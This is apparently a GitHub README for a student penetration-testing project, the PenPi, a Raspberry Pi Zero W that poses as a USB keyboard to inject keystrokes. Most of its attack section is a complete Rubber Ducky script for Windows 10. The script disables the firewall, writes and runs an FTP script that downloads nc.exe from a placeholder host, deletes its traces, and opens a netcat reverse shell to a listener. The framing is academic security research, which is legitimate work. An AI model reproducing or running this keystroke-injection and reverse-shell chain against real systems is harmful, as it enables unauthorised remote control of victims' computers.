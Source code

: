 # CS445Project
I decided to use a physical security device created by myself and a few team members for our senior project in CS. It is called the PenPi, short for Penetration Raspberry Pi, a tool designed to be used by researchers and use by professionals in a penetration testing scenario. In this project, I setup the PenPi device to launch a USB Rubber Ducky script against a Windows 10 Machine in order to compromise it and setup a reverse shell that connected to my "Hacking" system.

Due to my limited time on the project, I did not have much opportunity to do anything other than this attack.

## PenPi
The Penpi device is a Raspberry Pi Zero W that can be used to launch HID emulation attacks as well as a multitude of others. It can be interfaced in many ways, including by app over Bluetooth and wirelessly with SSH, and can launch payloads in many ways as well. I used it for a simple HID attack in which I emulated a keyboard via USB.

## Encoder
The encoder included in the files above is designed to take scripts that are traditionally meant to run in the USB Rubber Ducky from Hak5 and enable their use on the PenPi device

## HID Emuator
This magic part of the tool will take the encoded ducky script uploaded to the PenPi device and send it in HID packets to the target machine. In this way, the device can send keyboard input to the device and force it to execute commands on the command prompt. This is how the script interacts with the victim machine.

## Script
Below is the script that I used on the device for this project:
```
DELAY 10000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING cd %USERPROFILE%
ENTER
DELAY 100
STRING netsh firewall set opmode disable
ENTER
DELAY 2000
STRING echo open [IP] [PORT] > ftp.txt
ENTER
DELAY 100
STRING echo [USERNAME]>> ftp.txt
ENTER
DELAY 100
STRING echo [PASSWORD]>> ftp.txt
ENTER
DELAY 100
STRING echo bin >> ftp.txt
ENTER
DELAY 100
STRING echo get nc.exe >> ftp.txt
ENTER
DELAY 100
STRING echo bye >> ftp.txt
ENTER
DELAY 100
STRING ftp -s:ftp.txt
ENTER
STRING del ftp.txt & exit
ENTER
DELAY 2000
GUI r
DELAY 200
STRING nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe -d
ENTER
DELAY 2000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING exit
ENTER
```

## Additional photos and resources
These are available upon request, I do have the PenPi device on hand and can demo the script in person if necessary - please let me know if that will be needed!

### END OF FILE
